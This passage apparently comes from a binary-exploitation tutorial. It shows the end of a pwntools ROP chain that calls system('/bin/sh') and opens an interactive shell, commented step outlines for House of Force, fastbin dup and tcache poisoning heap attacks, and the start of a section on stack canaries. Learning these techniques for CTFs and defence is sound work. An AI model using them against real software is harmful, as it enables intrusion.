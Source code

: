 ```python
payload2 += p64(pop_rdi)
payload2 += p64(bin_sh)
payload2 += p64(system_addr)

p.sendline(payload2)
p.interactive()
```

### Heap Exploitation Techniques

**House of Force:**

```python
# Exploit malloc() by corrupting top chunk size
# 1. Overflow into top chunk, set size to -1 (0xffffffffffffffff)
# 2. Calculate offset to target address
# 3. Allocate large chunk to move top chunk to target
# 4. Next allocation writes to target address
```

**Fastbin dup:**

```python
# Exploit double-free in fastbins
# 1. Allocate three chunks: A, B, C
# 2. Free A, B, A (double-free A)
# 3. Fastbin: A → B → A (circular)
# 4. Allocate and control A again
# 5. Overwrite fd pointer of A to target address
# 6. Allocate until target is returned
```

**Tcache poisoning:**

```python
# Similar to fastbin dup but with tcache
# Tcache has less security checks
# 1. Double-free into tcache
# 2. Overwrite next pointer
# 3. Allocate to get arbitrary write
```

---

## Exploit Mitigations & Bypasses

### Stack Canaries

**Detection:**

```bash
checksec --file=./binary
# Output:
# Canary: Canary found
```

